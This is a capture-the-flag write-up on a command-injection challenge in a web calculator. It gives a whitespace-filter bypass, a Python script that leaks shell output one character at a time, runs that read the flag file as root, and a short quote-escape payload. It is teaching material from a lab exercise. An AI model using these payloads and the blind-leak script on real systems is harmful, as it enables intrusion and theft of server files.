 # Awesome Calculator

## Challenge description
> Checkout my new awesome calculator! It works great!

## Solution
We are giving the following website:

![](images/website.png)


### Exploration - what can we do?
Playing a bit around with it, it seems it contains some sort of command injection. I tried various inputs, eventually discovering:
* "Firewall" is hit when writing a space
* "Firewall" is hit when writing `flag.txt`. So flag is probably stored here
* System crashes on bad syntax. E.g. `$(')`
* Its a command injection, as `2+$((4))` gives the output `6`

However even though we have a command injection, we do not see any output. `4&&$(ls)` gave an interesting output, which I unfortunately could not exploit:

![](images/ls.png)

It seems like we are only limited to integers. We will return to this later.

### Defeating the whitespace
Most bash/command implementations supports the space variable `${IFS}`. Meaning that a command like `ls -l` can be encoded as `ls${IFS}-l`. Running `$((2${IFS}+4))` on the server yields `6`. Thus, we got rid of the whitespace problem. However it gets a bit tedious to write, time to automate!

### Automating input
We simply create a python script to send the input to the webserver, while replacing any whitespaces with `${IFS}`:

```python
import requests
import re
import string
import sys

# Run the command against the server and return the output
def run(cmd):
    url = "http://165.22.90.215:8093/calc"
    cmd = cmd.replace(" ", "${IFS}") # Replace spaces
    response = requests.get(url, params={'exp': cmd})

    if not response:
        return None
    
    if "firewall" in response.text:
        print("Error: Triggered firewall")
        return None

    # Remove all HTML around the output which is within <b>OUTPUT</b>
    return re.sub(r".*<b>([^<]+)\s*</b>.*", "\\1", response.text, flags=re.DOTALL).strip()

print(run("$((2+4))"))   # Yields 6
print(run("$((2+4+6))")) # Yields 12
```

### Exploiting
Now that we can run simple commands and return integers, its time to exploit it. There is probably a simpler way, but treating it like a SQL-injection and leaking a character at a time, is indeed feasible.

We use the following method, to take a character at a time, convert it to ascii and return it. It can be tested in your own terminal:
```
echo abcd|head -c 1|tail -c 1|od -N 1 -i|head -n 1|sed 's/\s\+//g'
```

Lets brake it down into parts. Essentially we use head and tail to just take the first or last character from the output:
```
$ echo abcd
abcd

$ echo abcd|head -c 1
a

$ echo abcd|head -c 1|tail -c 1
a

$ echo abcd|head -c 1|tail -c 1|od -N 1 -i
0000000          97
0000001

$ echo abcd|head -c 1|tail -c 1|od -N 1 -i|head -n 1
0000000          97

$ echo abcd|head -c 1|tail -c 1|od -N 1 -i|head -n 1|sed 's/\s\+//g'
000000097

$ echo abcd|head -c 2|tail -c 1|od -N 1 -i|head -n 1|sed 's/\s\+//g'
000000098
$ echo abcd|head -c 3|tail -c 1|od -N 1 -i|head -n 1|sed 's/\s\+//g'
000000099
```
The ascii code of `a` is indeed 97, while `b` has 98 and `c` has 99. Now its time to create a script, that can automate this.

Instead of `echo abcd` we just write the command we want. To ensure our payload is treated nicely, we wrap it as previously with `0+$(%payload%)`.

The final script, which gives us command injection with output on the server is:

```python
import requests
import re
import string
import sys

# Run the command against the server and return the output
def run(cmd):
    url = "http://165.22.90.215:8093/calc"
    cmd = cmd.replace(" ", "${IFS}") # Replace spaces
    response = requests.get(url, params={'exp': cmd})

    if not response:
        return None
    
    if "firewall" in response.text:
        print("Error: Triggered firewall")
        return None

    # Remove all HTML around the output which is within <b>OUTPUT</b>
    return re.sub(r".*<b>([^<]+)\s*</b>.*", "\\1", response.text, flags=re.DOTALL).strip()

# Run the command multiple times against the server
# For each time, return one byte at the time
def leak(cmd):
    n = run("0+$(" + cmd + "|wc -c)")

    if n == None:
        print("Error: Failed!")
        return None
    
    n = int(n)
    print("Number of characters: ", n - 1)

    # Fetch one char at a time
    for i in range(1,n):
        res = run("0+$(" + cmd + "|head -c " + str(i) + "|tail -c 1|od -N 1 -i|head -n 1|sed 's/\s\+//g')")

        char = "#"
        if int(res) > 0:
            char = chr(int(res))
        
        # Do NOT output newlines
        print(char, end='',flush=True)
    
    print("")
        
if len(sys.argv) > 1:
    leak(sys.argv[1])
else:
    leak("find / -name fla*.txt -type f")
    leak("find / -name fla*.txt -type f -exec cat {} +")
```

We run it:
```
$ python3 leak.py "id"
Number of characters:  129
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```
Sweat! I've always wanted to be root. Lets find the flag:
```
$ python3 leak.py
Number of characters:  17
/srv/app/flag.txt
Number of characters:  36
CTF{Executing_Commands_Are_Awesome!}
```

# Final notes
While the above method is one way to solve it, there is actually a much easier way to do so!
This is a injection challenge, so when you have anything to do regarding injection, try to figure out what is happening on the server and IF you can escape anything. 
What makes this challenge hard is, that you can get some output without doing proper escape of the command the server actually calls, which leads many in the rather hard and tedious way.
But if you realise that the command the server actually calls is something like `calculator "$input"`, then it becomes very apparent, that you can escape it simply using `"`. 
The final payload can then be written as just

```
2+2"&&cat${IFS}/srv/app/fla""g.txt"
```

Which is also a solution!

The actual source can be seen [here](https://gitlab.com/deviosec/challenges/aarhusctf2019/web-awesome-calculator/blob/master/src/srv/app/app.py#L39).

---
*Writeup by Morten Eskildsen*

*Additional solution added by Johan Hempel Bengtson (eyJhb)*
